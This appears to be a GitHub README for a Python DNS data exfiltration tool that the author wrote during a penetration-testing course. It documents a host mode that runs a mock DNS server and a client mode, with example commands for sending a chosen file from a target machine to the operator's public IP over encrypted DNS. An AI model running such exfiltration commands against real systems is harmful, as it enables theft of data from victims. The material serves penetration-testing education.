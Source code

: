 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from. The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:
```
python3 main.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 main.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 main.py -h
```
